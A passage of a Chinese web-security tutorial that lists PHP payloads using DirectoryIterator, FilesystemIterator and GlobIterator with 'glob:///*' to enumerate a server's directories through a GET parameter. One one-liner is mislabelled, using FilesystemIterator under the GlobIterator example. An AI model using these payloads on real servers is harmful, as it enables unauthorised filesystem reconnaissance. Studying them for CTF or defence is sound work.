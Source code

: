 ![img](assets/202304161617444.jpeg)

#### 3.4. 利用姿势（payload）

```php
<?php
$dir = $_GET['x'];
$a = new DirectoryIterator($dir);
foreach($a as $f){
    echo($f->__toString().'<br>');// 不加__toString()也可,因为echo可以自动调用
}
?>
其中x=glob:///*

# payload一句话的形式:
$a = new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().'<br>');}
<?php
$dir = $_GET['x'];
$a = new FilesystemIterator($dir);
foreach($a as $f){
    echo($f->__toString().'<br>');// 不加__toString()也可,因为echo可以自动调用
}
?>
其中x=glob:///*

# payload一句话的形式:
$a = new FilesystemIterator("glob:///*");foreach($a as $f){echo($f->__toString().'<br>');}
<?php
$dir = $_GET['x'];
$a = new GlobIterator($dir);
foreach($a as $f){
    echo($f->__toString().'<br>');// 不加__toString()也可,因为echo可以自动调用
}
?>
其中x=/*

# payload一句话的形式:
$a = new FilesystemIterator("/*");foreach($a as $f){echo($f->__toString().'<br>');}
```

### 4、读取文件相关利用内置类
